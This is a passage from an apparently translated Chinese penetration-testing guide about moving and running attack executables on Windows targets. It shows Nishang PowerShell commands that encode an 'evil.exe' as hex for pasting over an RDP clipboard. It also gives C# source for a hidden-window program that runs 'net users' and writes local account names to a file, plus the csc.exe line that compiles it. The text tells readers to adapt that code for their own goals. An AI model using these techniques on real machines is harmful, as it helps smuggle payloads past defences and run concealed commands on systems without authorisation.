 Notepad将会获取URL的内容展现出来。

**Exe to Txt, and Txt to Exe with PowerShell and Nishang**

http://code.google.com/p/nishang/downloads/list

当需要把一个exe文件放到目标计算机上时，这可能是我最喜欢的工具，Nishang使用PowerShell允许你吧一个exe转换成hex，然后吧hex再转换成原来的exe文件。

把exe转成hex文件输入：

	PS > .\ExetoText.ps1 evil.exe evil.txt
打开evil.txt文件，复制内容，然后通过RDP的剪贴板复制进目标计算机。

把hex文件还原成exe文件输入：

	PS > .\TexttoExe.ps1 evil.text evil.exe
	
**Csc.exe to Compile Source from a File**

C的编译器（CSC）是包含在在Windows微软.NET安装中的命令行编译器。

这个可执行文件的默认位置是以下情况：

	C:\Windows\Microsoft.NET\Framework\version
使用下面的示例代码，编译后的可执行文件将使用的cmd.exe来查询本地用户，然后将结果写入一个在C:\Temp\users.txt中。可以修改其中的代码，达到自己想要的目的，然后编译成exe文件。

	public class Evil
	{
	   public static void Main()
	   {
	      System.Diagnostics.Process process = new System.Diagnostics.Process();
	      System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
	      startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
	      startInfo.FileName = "cmd.exe";
	      startInfo.Arguments = "/C net users > C:\\Temp\\users.txt";
	      process.StartInfo = startInfo;
	      process.Start();
	   }
	}
代码编译命令：

	csc.exe /out:C:\evil\evil.exe C:\evil\evil.cs